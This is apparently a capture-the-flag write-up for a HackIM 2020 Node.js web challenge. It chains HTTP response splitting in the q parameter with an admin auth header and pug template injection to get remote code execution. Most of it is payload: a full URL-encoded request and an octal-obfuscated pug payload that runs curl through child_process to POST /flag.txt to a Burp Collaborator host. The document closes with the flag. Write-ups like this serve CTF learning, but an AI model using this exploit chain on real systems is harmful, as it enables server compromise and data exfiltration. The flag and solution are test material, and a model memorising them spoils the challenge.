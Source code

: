 ## Run

1. ./start.sh

## Solution

1. Get source via /source 
2. Http Response splitting via http library in q parameter. 
    ref https://hackerone.com/reports/409943
3. Need to set arbitary header for admin auth and pug
4. Need to create a payload without characters for pug RCE


## Payload
```
http://192.168.29.182:8081/core?q=t%C4%A0HTTP%2F1.1%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0%2Fflag%C4%A0HTTP%2F1.1%C4%8D%C4%8Aadminauth%3Asecretpassword%C4%8D%C4%8Apug%3A%C4%A0-[][%2522\143\157\156\163\164\162\165\143\164\157\162%2522][%2522\143\157\156\163\164\162\165\143\164\157\162%2522](%2522\166\141\162\40\170\40\75\40\147\154\157\142\141\154\56\160\162\157\143\145\163\163\56\155\141\151\156\115\157\144\165\154\145\56\162\145\161\165\151\162\145\50\42\143\150\151\154\144\137\160\162\157\143\145\163\163\42\51\56\145\170\145\143\123\171\156\143\50\42\143\165\162\154\40\60\143\144\141\164\60\62\164\161\165\62\70\170\161\172\171\170\61\66\143\141\67\152\155\164\144\172\63\156\163\56\142\165\162\160\143\157\154\154\141\142\157\162\141\164\157\162\56\156\145\164\40\55\130\40\120\117\123\124\40\55\144\40\140\143\141\164\40\57\146\154\141\147\56\164\170\164\140\42\51\56\164\157\123\164\162\151\156\147\50\51\73\143\157\156\163\157\154\145\56\154\157\147\50\170\51%2522)()%C4%8D%C4%8Acheck%3alll

```

## pug payload

* Convert all characters to octal
```
- []["constructor"]["constructor"]("var x = global.process.mainModule.require("child_process").execSync("curl 0cdat02tqu28xqzyx16ca7jmtdz3ns.burpcollaborator.net -X POST -d `cat /flag.txt`").toString();console.log(x)")()

```

## Flag
hackim20{You_must_be_1337_in_JavaScript!}
